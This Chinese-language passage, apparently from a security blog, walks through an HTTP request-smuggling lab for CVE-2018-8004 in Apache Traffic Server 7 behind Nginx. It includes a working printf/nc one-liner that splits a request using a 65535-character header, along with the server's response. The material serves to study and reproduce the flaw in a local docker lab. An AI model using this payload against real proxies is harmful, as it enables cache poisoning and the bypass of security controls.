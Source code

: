 关于这四个补丁的分析与复现我觉得 @mengchen 师傅已经写的非常详细了，我就不在赘述了，建议看原文部分 [HTTP 走私攻击实例——CVE-2018-8004](https://paper.seebug.org/1048/#4-httpcve-2018-8004)

这里我们说一下原文没有的部分：

```bash
[dummy-host7.example.com]
                                        |
                                  +-[8080]-----+
                                  | 8007->8080 |
                                  |  ATS7      |
                                  |            |
                                  +-----+------+
                                        |
                                        |
                                  +--[80]----+
                                  | 8002->80 |
                                  |  Nginx   |
                                  |          |
                                  +----------+
```

我们构建以上场景，可以使用我搭建的 docker 实验环境 [lab1](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/lab1)

### Request Splitting using Huge Header

我们可以通过使用 65535 个字符的 header 来进行实验，比如说我们可以通过使用以下代码来发送一个含有 65535 个字符的 header 的请求到 ATS 7:

```bash
printf 'GET_/something.html?zorg2=5_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8007
```

nginx 的返回会直接返回 400 错误，但是有 ATS 7 就比较有趣了，我们会得到一个 400 响应以及 ATS 7 的 200 响应

```bash
HTTP/1.1 400 Invalid HTTP Request
Date: Fri, 29 Nov 2019 18:52:42 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request.
</B></FONT>
<HR>
</BODY>
```
